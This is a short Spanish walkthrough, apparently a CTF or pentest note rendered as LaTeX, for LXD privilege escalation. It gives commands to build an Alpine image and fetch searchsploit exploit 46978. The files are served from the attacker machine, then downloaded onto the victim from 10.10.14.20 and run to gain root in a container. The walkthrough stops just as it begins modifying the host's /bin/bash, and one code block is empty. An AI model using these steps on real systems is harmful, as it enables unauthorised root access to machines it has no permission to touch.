\documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\NormalTok}[1]{#1}
\begin{document}
\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En la maquina de attaquante

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine}
\FunctionTok{chmod}\NormalTok{ +x build-alpine}
\ExtensionTok{./build-alpine} \CommentTok{# --> para maquinas x64}
\ExtensionTok{./build-alpine}\NormalTok{ -a i686 }\CommentTok{# --> para maquinas i686}
\ExtensionTok{searchsploit}\NormalTok{ -m 46978}
\FunctionTok{mv}\NormalTok{ 46978.sh lxd_privesc.sh}
\ExtensionTok{dos2unix}\NormalTok{ lxd_privesc.sh}
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  En la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ http://10.10.14.20/alpine-v3-14-i686-20210728_2134.tar.gz}
\FunctionTok{wget}\NormalTok{ http://10.10.14.20/lxd_privesc.sh}
\FunctionTok{chmod}\NormalTok{ +x lxd_privesc.sh}
\ExtensionTok{./lxd_privesc.sh}\NormalTok{ -f alpine-v3-14-i686-20210728_2134.tar.gz}
\end{Highlighting}
\end{Shaded}
\item
  vemos un error \texttt{error:\ This\ must\ be\ run\ as\ root}. Modificamos el fichero lxd\_privesc.sh

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nano}\NormalTok{ lxd_privesc.sh}
\end{Highlighting}
\end{Shaded}

  en la function createContainer(), borramos la primera linea:

\begin{Shaded}
\end{Shaded}
\item
  Ya estamos root pero en el contenedor. Modificamos la \texttt{/bin/bash} de la maquina


\end{enumerate}
\end{document}
